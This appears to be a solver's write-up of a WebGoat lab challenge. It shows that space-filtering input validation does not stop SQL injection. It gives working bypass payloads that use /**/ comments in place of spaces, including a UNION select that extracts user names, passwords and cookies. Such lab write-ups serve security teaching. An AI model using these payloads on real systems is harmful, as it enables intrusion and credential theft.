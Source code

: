 # Challenge name: Input validation alone is not enough!!

### Challenge Description:

You need to do both, use parametrized queries and validate the input received from the user. On StackOverflow you will see a lot of answers stating that input validation is enough. However it only takes you so far before you know the validation is broken, and you have an SQL injection in your application.

A nice read why it is not enough can be found https://twitter.com/marcan42/status/1238004834806067200?s=21

Let’s repeat one of the previous assignments, the developer fixed the possible SQL injection with filtering, can you spot the weakness in this approach?

### My solution
If you use `';select * from user_system_data -- ` like [sqli-advanced/chall-1](/webgoat/a3-injection/sqli-advanced/chall-1.md)
![img](chall-attached/img-1.png)
Don't worry, we can use `/**/` to replace the `white space`

After replace, payload look like: `';select/**/*/**/from/**/user_system_data/**/--/**/` or
`'/**/union/**/select/**/userid,user_name,password,cookie,null,null,null/**/from/**/user_system_data/**/--/**/`
